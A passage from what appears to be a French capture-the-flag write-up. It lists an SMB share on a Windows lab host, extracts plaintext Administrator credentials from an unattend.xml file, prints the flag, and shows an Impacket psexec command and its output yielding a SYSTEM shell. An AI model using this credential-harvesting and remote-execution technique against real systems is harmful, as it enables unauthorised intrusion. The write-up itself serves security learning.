 Mais... wait... que vois-je à la racine du shell ? Est-ce un oiseau? Est-ce un avion ? Mieux que ça c'est un fichier *unattend* :)  

```plain
smb: \> dir
  $Recycle.Bin                      DHS        0  Sun Sep 23 15:56:37 2018
  autoexec.bat                        A       24  Wed Jun 10 23:42:20 2009
  config.sys                          A       10  Wed Jun 10 23:42:20 2009
  Documents and Settings            DHS        0  Tue Jul 14 06:53:55 2009
  gogs                                D        0  Sun Sep 23 14:43:16 2018
  hiberfil.sys                      AHS 2415517696  Sat Sep 22 21:18:21 2018
  pagefile.sys                      AHS 3220692992  Sat Sep 22 21:18:21 2018
  PerfLogs                            D        0  Tue Jul 14 04:37:05 2009
  Program Files                      DR        0  Sun Sep 23 13:32:03 2018
  ProgramData                        DH        0  Sat Sep 22 22:30:48 2018
  Recovery                          DHS        0  Sat Sep 22 21:41:36 2018
  shell.exe                           A      341  Fri Feb 22 13:23:18 2019
  shellabc.exe                        A      341  Fri Feb 22 13:23:51 2019
  System Volume Information         DHS        0  Wed Feb 20 18:40:23 2019
  unattend.xml                        A     3578  Sun Sep 23 15:59:04 2018
  Users                              DR        0  Sun Sep 23 15:56:20 2018
  Windows                             D        0  Fri Feb 22 13:22:33 2019
  xampp                               D        0  Sat Sep 22 22:32:24 2018

                13081087 blocks of size 4096. 9568320 blocks available
```

On trouve effectivement des identifiants dans le fichier :  

```html
<Credentials>
    <Username>Administrator</Username>
    <Domain>beta</Domain>
    <Password>loveLyp4ssw0rd*!</Password>
</Credentials>
```

Si ça c'est pas mignon :p Les identifiants admin permettent de récupérer le flag final (f1f95d42573c2f3940bfae6fdba05e5a). That's it !  

On peut aussi obtenir un shell via le script psexec.py de Impacket par exemple :  

```plain
$ PYTHONPATH=. python2 examples/psexec.py 'BETA/Administrator:loveLyp4ssw0rd*!@10.1.1.15'
Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies

[*] Requesting shares on 10.1.1.15.....
[*] Found writable share ADMIN$
[*] Uploading file pFwNnYkJ.exe
[*] Opening SVCManager on 10.1.1.15.....
[*] Creating service XvJH on 10.1.1.15.....
[*] Starting service XvJH.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>exit
[*] Process cmd.exe finished with ErrorCode: 0, ReturnCode: 0
[*] Opening SVCManager on 10.1.1.15.....
[*] Stoping service XvJH.....
[*] Removing service XvJH.....
[*] Removing file pFwNnYkJ.exe.....
```
